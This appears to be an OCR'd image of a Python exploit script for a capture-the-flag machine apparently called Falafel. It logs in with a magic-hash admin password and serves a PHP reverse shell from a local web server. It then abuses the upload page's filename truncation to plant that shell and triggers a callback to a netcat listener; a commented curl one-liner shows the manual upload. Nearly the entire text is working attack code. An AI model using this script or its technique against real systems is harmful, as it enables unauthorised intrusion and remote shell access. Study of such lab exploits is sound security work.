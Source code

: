 
    def start_server():
        os.chdir(web_dir)
        with open(filename, 'w') as f:
            f.write(rev_shell)
        server_address = ('0.0.0.0', web_port)
        httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
        httpd.serve_forever()

    # start webserver
    print("[*] Starting webserver thread from {} on port {}".format(web_dir, web_port))
    thread = Thread(target=start_server, daemon=True)
    thread.start()

    # Login
    print("[*] Getting logon.php with phpsession cookie")
    s = requests.session()
    s.get(falafel_url + "/login.php")
    print("[*] Logging in with admin / 240610708")
    s.post(falafel_url + "/login.php", data={"username": "admin", "password": "240610708"} )

    # upload php rev_shell
    # URL=$(python -c 'print "http://10.10.15.99:8081/" + "B"*232 + ".php.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name" -e CMD
    print("[*] Uploading reverse shell php")
    resp = s.post(falafel_url + "/upload.php", headers={"Referer": "http://10.10.10.73/upload.php"}, data={"url": "http://" + ip + ":" + str(web_port) + "/" + filename})

    # locate shell
    path = re.search(r"CMD: cd /var/www.md(/uploads/[\w\-]+);", resp.text).group(1)
    file_ = re.search(r"New name is (\w+\.php)\.", resp.text).group(1)

    # activate shell
    print("[*] Activating shell. Expect callback on {}:{}".format(ip, nc_port))
    try:
        s.get("{}{}/{}".format(falafel_url, path, file_), timeout=1)
    except requests.exceptions.ReadTimeout:
        pass

    print("[*] Cleaning up and exiting")
    os.remove(web_dir + "/" + filename)
    sys.exit(1)
